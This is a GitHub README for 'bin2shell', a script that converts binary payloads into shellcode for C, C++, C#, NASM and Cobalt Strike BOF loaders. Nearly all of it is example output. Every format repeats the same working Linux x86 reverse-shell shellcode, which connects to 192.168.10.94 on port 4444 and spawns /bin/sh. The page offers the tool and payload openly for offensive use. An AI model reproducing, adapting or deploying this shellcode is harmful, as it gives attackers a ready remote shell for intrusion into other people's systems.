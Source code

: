 <div align="right">
  <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fbin2shell">
    <img src="https://api.visitorbadge.io/api/visitors?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2Fbin2shell&label=Visitors&countColor=%2337d67a" />
  </a>
</div>

# 🐚 bin2shell

## 📜 Description
A small script that generate shellcode from various low level languages. 

📚 Table of Contents
- 📜 [Description](#-description)
- ⚙️ [Help](#-help)
- 📌 [Author](#-author)
- 👨🏾‍⚖️ [License](#-license)

## ⚙️ Help
```bash
python3 bin2shell.py -h
  
  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Shellcode Generator / v1.2

usage: bin2shell.py [-h] -bin BIN [-c C] [-cpp CPP] [-cs CS] [-asm ASM] [-bof BOF]

Shellcode Generator (C,C#,CPP,ASM)

options:
  -h, --help  show this help message and exit
  -bin  BIN   Input shellcode binary file
  -c    C     Convert binart into C raw shellcode
  -cpp  CPP   Convert binary into CPP raw shellcode
  -cs   CS    Convert binary into C# raw shellcode
  -asm  ASM   Convert binary into (NASM) raw shellcode
  -bof  BOF   Convert cobalt strike BOF into raw shellcode

Example usage: python3 bin2shell.py -bin shellcode.bin -c shellcode_c.txt
```
## Usage
### Binary payload to C shellcode 
```bash
$ python3 bin2shell.py -bin shellcode.bin -c shellcode_c.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
      Author: @l0n3m4n / Shellcode Generator / v1.2


Formatted C Shellcode:

"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" 
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0\xa8\x0a\x5e\x68" 
"\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1" 
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3" 
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80"

Saved C formatted shellcode to shellcode_c.txt
```
### Binary payload to C++ shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -cpp shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted C++ Shellcode:

const char shellcode[] = {0x31,0xdb,0xf7,0xe3,0x53,0x43,0x53,0x6a,0x02,0x89,0xe1,0xb0,0x66,0xcd,0x80,0x93,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x68,0xc0,0xa8,0x0a,0x5e,0x68,0x02,0x00,0x11,0x5c,0x89,0xe1,0xb0,0x66,0x50,0x51,0x53,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x52,0x68,0x6e,0x2f,0x73,0x68,0x68,0x2f,0x2f,0x62,0x69,0x89,0xe3,0x52,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80};

Saved C++ formatted shellcode to shell.txt
```
### Binary payload to C# shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -cs shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted C# Shellcode:

byte[] shellcode = new byte[] {0x31,0xdb,0xf7,0xe3,0x53,0x43,0x53,0x6a,0x02,0x89,0xe1,0xb0,0x66,0xcd,0x80,0x93,0x59,0xb0,0x3f,0xcd,0x80,0x49,0x79,0xf9,0x68,0xc0,0xa8,0x0a,0x5e,0x68,0x02,0x00,0x11,0x5c,0x89,0xe1,0xb0,0x66,0x50,0x51,0x53,0xb3,0x03,0x89,0xe1,0xcd,0x80,0x52,0x68,0x6e,0x2f,0x73,0x68,0x68,0x2f,0x2f,0x62,0x69,0x89,0xe3,0x52,0x53,0x89,0xe1,0xb0,0x0b,0xcd,0x80};

Saved C# formatted shellcode to shell.txt
```
### Binary BOF loader to shellcode 
```bash
$ python3 bin2shell.py -bin shellcode.bin -bof shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted BOF Loader Shellcode:

31dbf7e35343536a0289e1b066cd809359b03fcd804979f968c0a80a5e680200115c89e1b066505153b30389e1cd8052686e2f7368682f2f626989e3525389e1b00bcd801c3fe6e948000000

Saved BOF Loader formatted shellcode to shell.txt
```
### Binary payload to ASM shellcode
```bash
$ python3 bin2shell.py -bin shellcode.bin -asm shell.txt

  ,--.   ,--.         ,---.        ,--.            ,--.,--. 
  |  |-. `--',--,--, '.-.  \ ,---. |  ,---.  ,---. |  ||  | 
  | .-. ',--.|      \ .-' .'(  .-' |  .-.  || .-. :|  ||  | 
  | `-' ||  ||  ||  |/   '-..-'  `)|  | |  |\   --.|  ||  | 
   `---' `--'`--''--''-----'`----' `--' `--' `----'`--'`--' 
       Author: @l0n3m4n / Shellcode Generator / v1.2 

Formatted ASM Shellcode:

section .text
global _start

_start:
        jmp shellcode

shellcode:
        db 0x31
        db 0xdb
        db 0xf7
        db 0xe3
        db 0x53
        db 0x43
        db 0x53
        db 0x6a
        db 0x02
        db 0x89
        db 0xe1
        db 0xb0
        db 0x66
        db 0xcd
        db 0x80
        db 0x93
        db 0x59
        db 0xb0
        db 0x3f
        db 0xcd
        db 0x80
        db 0x49
        db 0x79
        db 0xf9
        db 0x68
        db 0xc0
        db 0xa8
        db 0x0a
        db 0x5e
        db 0x68
        db 0x02
        db 0x00
        db 0x11
        db 0x5c
        db 0x89
        db 0xe1
        db 0xb0
        db 0x66
        db 0x50
        db 0x51
        db 0x53
        db 0xb3
        db 0x03
        db 0x89
        db 0xe1
        db 0xcd
        db 0x80
        db 0x52
        db 0x68
        db 0x6e
        db 0x2f
        db 0x73
        db 0x68
        db 0x68
        db 0x2f
        db 0x2f
        db 0x62
        db 0x69
        db 0x89
        db 0xe3
        db 0x52
        db 0x53
        db 0x89
        db 0xe1
        db 0xb0
        db 0x0b
        db 0xcd
        db 0x80

Saved ASM formatted shellcode to shell.txt
``` 
## 📌 Author
- [Facebook](https://facebook.com/l0n3m4n)
- [Twitter (X)](https://twitter.com/l0n3m4n)
- [Medium](https://medium.com/l0n3m4n)
- [Website](https://l0n3m4n.github.io)

## 👨🏾‍⚖️ License
This project is under terms of the [MIT License](LICENSE). For fixing Bugs, create [issue](https://github.com/l0n3m4n/bin2shell/issues/new)
